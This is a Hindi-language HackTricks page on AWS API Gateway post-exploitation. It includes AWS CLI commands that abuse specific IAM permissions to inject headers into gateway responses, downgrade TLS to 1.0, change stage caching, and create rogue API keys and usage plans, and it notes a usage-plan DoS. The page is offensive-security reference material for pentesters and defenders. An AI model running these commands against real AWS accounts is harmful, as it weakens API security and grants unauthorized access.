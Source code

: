 # AWS - API Gateway पोस्ट अधिकारीकरण

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अप्रकटित API तक पहुंच

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) में सेवा com.amazonaws.us-east-1.execute-api के साथ एक अंतबिंदु बना सकते हैं, जहां आपकी पहुंच होती है (संभवतः एक EC2 मशीन के माध्यम से) और सभी कनेक्शन की अनुमति देने वाले एक सुरक्षा समूह को सौंप सकते हैं।\
फिर, EC2 मशीन से आप अंतबिंदु तक पहुंच कर सकेंगे और इसलिए पहले से अप्रकटित गेटवे API को कॉल कर सकेंगे।

### उपयोग योजना DoS

**जाँच** खंड में आप देख सकते हैं कि कैसे **कुंजी की उपयोग योजना प्राप्त करें**। यदि आपके पास कुंजी है और यह **मासिक** X उपयोग के **सीमित** है, तो आप इसे **उपयोग करके डीओएस का कारण कर सकते हैं**।

**API कुंजी** को बस एक **HTTP हैडर** जिसका नाम **`x-api-key`** है, के भीतर **शामिल** किया जाना चाहिए।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

अनुमतियों `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` के साथ एक हमलावर एक मौजूदा गेटवे प्रतिक्रिया को सामान्य शीर्षक या प्रतिक्रिया टेम्पलेट शामिल करने के लिए **एक गेटवे प्रतिक्रिया में संशोधित कर सकता है जो संवेदनशील जानकारी रिसेट करता है या दुर्भाग्यपूर्ण स्क्रिप्ट निष्पादित करता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**पोटेंशियल प्रभाव**: संवेदनशील जानकारी का लीक हो सकता है, दुष्ट स्क्रिप्ट्स को निष्पादित करना या एपीआई संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
टेस्ट की आवश्यकता है
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियों के साथ एक हमलावर्ती व्यक्ति **मौजूदा एपीआई गेटवे स्टेज को संशोधित कर सकता है ताकि ट्रैफिक को एक अलग स्टेज पर पुनर्निर्देशित किया जा सके या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा का अनधिकृत पहुंच, एपीआई ट्रैफिक को व्यवधानित या अवरोधित करना।

{% hint style="info" %}
टेस्टिंग की आवश्यकता है
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियों के साथ एक हमलावर **मौजूदा एपीआई गेटवे रेस्ट एपीआई विधि के विधि प्रतिक्रिया में परिवर्तन कर सकता है ताकि यह संवेदनशील जानकारी या दुर्भाग्यपूर्ण स्क्रिप्ट छोड़ सके**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुष्ट स्क्रिप्टों को निष्पादित करना, या API संसाधनों का अनधिकृत पहुंच.

{% hint style="info" %}
टेस्ट की आवश्यकता है
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियों के साथ एक हमलावर API Gateway REST API सेटिंग्स को संशोधित कर सकता है ताकि लॉगिंग को अक्षम करें या न्यूनतम TLS संस्करण को बदलें, जो API की सुरक्षा को कमजोर कर सकता है.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**पोटेंशियल प्रभाव**: एपीआई की सुरक्षा को कमजोर करना, अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी का प्रकट करना।

{% hint style="info" %}
टेस्टिंग की आवश्यकता है
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` अनुमतियों के साथ एक हमलावर नये एपीआई कुंजी बना सकता है, उन्हें उपयोग योजनाओं से जोड़ सकता है, और फिर इन कुंजियों का अनधिकृत पहुंच के लिए उपयोग कर सकता है।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**पोटेंशियल प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को छल करना।

{% hint style="info" %}
टेस्टिंग की आवश्यकता है
{% endhint %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>
